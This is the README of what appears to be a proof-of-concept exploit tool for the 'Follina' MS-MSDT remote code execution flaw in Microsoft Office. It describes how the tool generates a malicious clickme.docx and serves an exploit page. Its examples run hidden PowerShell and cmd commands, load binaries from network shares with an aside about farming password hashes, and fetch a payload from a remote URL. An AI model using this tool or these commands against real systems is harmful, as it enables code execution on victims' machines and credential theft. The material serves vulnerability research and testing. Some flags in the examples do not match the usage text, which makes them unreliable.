 # 'Follina' MS-MSDT n-day Microsoft Office RCE

Quick POC to replicate the 'Follina' Office RCE vulnerability for local testing purposes. Running the script will generate the `clickme.docx` payload file in your current working directory, and start a web server with the payload file (`www/exploit.html`). The payload and web server parameters are configurable (see examples).

> ⚠ DO NOT USE IN PRODUCTION LEST YOU BE REGARDED A DUMMY

## Usage:

```
python .\follina.py -h
usage: follina.py [-h] -m {command,binary} [-b BINARY] [-c COMMAND] [-u URL] [-H HOST] [-p PORT]

options:
  -h, --help            show this help message and exit

Required Arguments:
  -m {command,binary}, --mode {command,binary}
                        Execution mode, can be "binary" to load a (remote) binary, or "command" to run an encoded PS command

Binary Execution Arguments:
  -b BINARY, --binary BINARY

Command Execution Arguments:
  -c COMMAND, --command COMMAND
                        The encoded command to execute in "command" mode

Optional Arguments:
  -u URL, --url URL     The hostname or IP address where the generated document should retrieve your payload, defaults to "localhost"
  -H HOST, --host HOST  The interface for the web server to listen on, defaults to all interfaces (0.0.0.0)
  -p PORT, --port PORT  The port to run the HTTP server on, defaults to 80
```

## Examples:

```
# Execute a local binary
python .\follina.py -m binary -b \windows\system32\calc.exe

# Execute a binary from a file share (can be used to farm hashes 👀)
python .\follina.py -m binary -b \\localhost\c$\windows\system32\calc.exe

# Execute an arbitrary powershell command
python .\follina.py -m command -c "Start-Process c:\windows\system32\cmd.exe -WindowStyle hidden -ArgumentList '/c echo owned > c:\users\public\owned.txt'"

# Create the malicious document with a custom payload URL, no webserver
python .\follina.py -m url -u http://example.com/payload.html

# Only run the webserver on localhost, on port 8080 instead of 80
python .\follina.py -m binary -b \windows\system32\calc.exe -H 127.0.0.1 -P 8080

```

## Cool peeps

Thanks to [Kevin Beaumont](https://twitter.com/GossiTheDog) for [his original analysis](https://doublepulsar.com/follina-a-microsoft-office-code-execution-vulnerability-1a47fce5629e) of the issue, [@KevTheHermit](https://twitter.com/KevTheHermit) for sharing their poc, and [John Hammond](https://twitter.com/_JohnHammond) for their further work on analysing payload requirements. Additional thanks to [@mkolsek](https://twitter.com/mkolsek) for the template [supporting Office 2019](https://twitter.com/mkolsek/status/1531217733546823681), and [@theluemmel](https://twitter.com/theluemmel) for sharing their version of the payload with me.